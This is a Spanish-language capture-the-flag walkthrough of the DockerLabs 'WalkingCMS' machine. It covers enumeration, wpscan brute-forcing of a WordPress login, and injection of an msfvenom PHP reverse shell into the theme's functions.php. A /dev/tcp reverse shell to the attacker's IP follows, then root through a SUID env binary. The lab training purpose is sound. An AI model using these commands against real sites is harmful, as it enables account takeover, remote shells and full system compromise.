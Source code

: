 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WalkingCMS".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh walkingcms.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene un unico puerto abierto:
```
Discovered open port 80/tcp on 172.18.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Pero unicamente vemos una pagina de Apache2 normal.
Por lo tanto, vamos a probar a hacer un poco de FUZZING WEB a ver si hay suerte:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
El resultado de pasar GOBUSTER es:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]                                                                      
Progress: 143724 / 830576 (17.30%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 144102 / 830576 (17.35%)
===============================================================
Finished
===============================================================
```
Vemos que hay un Wordpress instalado, asi que vamos a ver si hay algun panel de login. No obstante, yo prefiero volver a usar GOBUSTER sobre el directorio "/wordpress":
```
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Obteniendo lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]                                                                        
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]                                                           
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]                                                          
/wp-login.php         (Status: 200) [Size: 6580]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]                                                             
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]                                            
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Tal y como se puede ver (aunque nos lo imaginaramos antes de usar GOBUSTER esta segunda vez), hay un "wp-login.php", por lo que iremos al navegador y entraremos en la direccion: "172.17.0.2/wordpress/wp-login.php". Aqui veremos un bonito panel de Login (logicamente) de Wordpress.
Es momento ahora de usar una herramienta especifica para intentar encontrar primero usuarios dentro de entornos CMS como este, que se llama WPSCAN. En la terminal podremos:
```
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
Y vemos que nos encuentra un usuario llamado "mario":
```
[i] User(s) Identified:

[+] mario  <==== Usuario detectado "mario"
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Perfecto. Ya tenemos el usuario, pero... ¿y la contraseña? Bien, para encontrarla, aunque hay otras herramientas, usaremos de nuevo WPSCAN ya que esta mas indicada para CMS's:
```
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```
Y nos encuentra la contraseña "love", como se puede ver a continuacion:
```
[!] Valid Combinations Found:
 | Username: mario, Password: love
```
**NOTA: Antes de continuar, hay que decir que al usar WPSCAN, se pone la ruta donde se encuentra el panel de Login PERO sin el "wp-login.php" (OJO CON ESTO !! ES MUY IMPORTANTE)**

Una vez encontrada la contraseña y aclarado lo anterior, pasamos a introducir las credenciales en el panel de login, lo que nos da acceso al panel de control de Wordpress del usuario "mario".
Bien, ahora nos interesaria inyectar codigo malicioso en ".php" pero no se observa ningun apartado donde poder subir algun archivo, por lo que otra alternativa es intentar inyectar el codigo malicioso directamente.
Lo primero que haremos sera abrir una terminal y  crear directamente el codigo malicioso con "msfvenom". Vamos a intentar obtener una reverse, por lo que usaremos:
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > reverseWalkingCMS.php
```
ya con el codigo malicioso creado, lo que haremos sera copiar al portapapeles TODO el contenido del archivo "reverseWalkingCMS.php".
Ahora nos dirigiremos de nuevo al navegador, y concretamente, al panel de control del usuario "mario", donde estabamos antes.
En este panel de control seleccionaremos en el menu de la izquierda la opcion "Apariencia", y dentro de ella, elegiremos donde pone "Theme Code Editor".
Perfecto, ahora es momento de inyectar nuestro codigo. Para ello, en la parte de la derecha, veremos un archivo que se llama "functions.php", por ejemplo.
Lo que haremos es simplemente abrir ese archivo y borrar todo su contenido, sustituyendolo por nuestro codigo malicioso.
Antes de continuar y grabar el archivo, abriremos DOS ventanas de la terminal:

   1) Una la pondremos a la escucha por el puerto 443 (el del codigo malicioso).
   2) La segunda, la pondremos a la escucha por el puerto 444, por ejemplo.

¿Y por que hacemos esto? Lo explico:
Cuando se hace un "payload" o codigo malicioso con "msfvenom" en PHP, normalmente al de unos segundos/minutos nos expulsa de la maquina, por lo que es conveniente siempre estabilizar esa conexion que obtenemos con el "payload".
La forma mas sencilla de estabilizarla es abrir una segunda terminal (como acabamos de hacer) e ir a la pagina "revshells.com".
En esta pagina, meteremos nuestra IP y el puerto que hemos elegido en la segunda terminal, es decir, el puerto al que queramos "redirigir" la conexion obtenida con el "payload".
Una vez hecho, en la parte de abajo, por defecto, nos proporcionara una reverse. En este caso en concreto:
```
sh -i >& /dev/tcp/172.17.0.1/444 0>&1
```
Esta reverse, sera la que meteremos luego en la primera terminal para estabilizar la conexion.
Bien, aclarado todo esto, volvemos al navegador y a nuestro panel de control de Wordpress.
Si recordadmos habiamos sustituido ya el codigo original de "functions.php" por nuestro "payload". Ahora ya solo tenemos que pinchar sobre el boton azul que pone "Update File" y esperar a que nos confirme Wordpress que se ha guardado correctamente.
En mi caso, simplemente con hacer esto ya me ha cogido directamente la conexion por el puerto 443, pero si vemos que no lo hace, iremos al navegador, pondremos la direccion "172.17.0.1/wordpress/" (por ejemplo) y ya deberia hacerlo.
Bien, ¿y ahora que? Pues como hemos dicho, hay que estabilizar la conexion antes de que nos "eche", por lo que introduciremos en ese primer terminal (el del puerto 443) el siguiente comando:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"
```
Lo que nos mandara la "reverse" a nuestra segunda terminal (la del puerto 444) y asi tendremos la conexion estabilizada. Ahora ya podriamos cerrar la primera terminal ya que no la necesitamos mas.
Bien, volviendo a la segunda terminal y escribiendo "whoami" vemos lo siguiente:
```
$ whoami
www-data
$ 
```
Nos quedarian ya solo dos cositas por hacer: el tratamiento de la TTY y la escalada de privilegios.
Empezaremos por el tratamiento de la TTY. Para ello haremos lo siguiente:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Vale, finalizado el tratamiento de la TTY, pasaremos a la escalada de privilegios probando primero con el comando "sudo -l":
```
bash: sudo: command not found
```
Como se ve, no se puede continuar por ahi. Es hora de probar otro tipo de escalada de privilegios con el comando: "find / -perm -4000 2>/dev/null"
```
find / -perm -4000 2>/dev/null

/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env
/usr/bin/newgrp
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Una vez obtenida la lista de binarios con permisos "SUID", iremos a la pagina de "gtfobins" y buscaremos cada uno de ellos para ver si podemos utilizarlos.
En este caso, el que funcionaria seria "/usr/bin/env", por lo que en "gtfobins" veremos que "env">SUID, nos presenta el siguiente codigo para hacer una reverse:
```
./env /bin/sh -p
```
No obstante, en nuestro caso pondremos la ruta COMPLETA:
```
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```
Finalmente vemos que hemos tenido acceso "root" en la maquina.
Como opcional, podriamos escribir el comando "bash -p" para obtener un prompt algo mas "normal", tal y como se ve abajo.
```
# bash -p
bash-5.2# whoami
root
bash-5.2#
```
